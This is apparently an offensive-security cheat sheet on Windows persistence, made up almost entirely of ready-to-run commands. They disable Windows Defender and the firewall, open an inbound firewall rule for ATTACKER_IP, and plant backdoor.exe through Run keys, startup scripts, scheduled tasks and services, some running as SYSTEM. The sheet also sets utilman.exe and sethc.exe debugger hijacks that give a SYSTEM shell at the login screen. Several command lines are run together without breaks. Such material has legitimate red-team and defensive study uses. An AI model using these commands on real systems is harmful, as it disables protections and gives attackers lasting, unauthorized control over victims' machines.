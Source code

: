 # Windows - Persistence

# Windows - Persistence

## Summary

- [Tools](about:blank#tools)
- [Disable Windows Defender](about:blank#disable-windows-defender)
- [Disable Windows Firewall](about:blank#disable-windows-firewall)
- [Userland](about:blank#userland)
    - [Registry](about:blank#registry)
    - [Startup](about:blank#startup)
    - [Scheduled Task](about:blank#scheduled-task)
- [Elevated](about:blank#elevated)
    - [HKLM](about:blank#hklm)
    - [Services](about:blank#services)
    - [Scheduled Task](about:blank#scheduled-task)
    - [RDP Backdoor](about:blank#rdp-backdoor)
- [References](about:blank#references)

## Tools

- [SharPersist - Windows persistence toolkit written in C#. - @h4wkst3r](https://github.com/fireeye/SharPersist)

## Disable Windows Defender

    sc config WinDefend start= disabledsc stop WinDefendSet-MpPreference -DisableRealtimeMonitoring $true

## Disable Windows Firewall

    Netsh Advfirewall show allprofilesNetSh Advfirewall set allprofiles state off# ip whitelistingNew-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP

## Userland

Set a file as hidden

    attrib +h c:\autoexec.bat

### Registry

Create a REG_SZ value in the Run key within HKCU.

    Value name:  BackdoorValue data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe

Using SharPersist

    SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m addSharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o envSharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add

### Startup

Create a batch script in the user startup folder.

    PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.batstart /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe

Using SharPersist

    SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add

### Scheduled Task

    PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"PS C:\> $S = New-ScheduledTaskSettingsSetPS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $SPS C:\> Register-ScheduledTask Backdoor -InputObject $D

Using SharPersist

    # Add to a current scheduled taskSharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add# Add new taskSharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m addSharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly

## Windows Service

Using SharPersist

    SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add

## Elevated

### HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM.

    Value name:  BackdoorValue data:  C:\Windows\Temp\backdoor.exe

### Services

Create a service that will start automatically or on-demand.

    PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."

### Scheduled Tasks

Scheduled Task to run as SYSTEM, everyday at 9am.

    PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9amPS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel HighestPS C:\> $S = New-ScheduledTaskSettingsSetPS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $SPS C:\> Register-ScheduledTask Backdoor -InputObject $D

### RDP Backdoor

### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f

### sethc.exe

Hit F5 a bunch of times when you are at the RDP login screen.

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f

## References

- [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
- [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
- [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)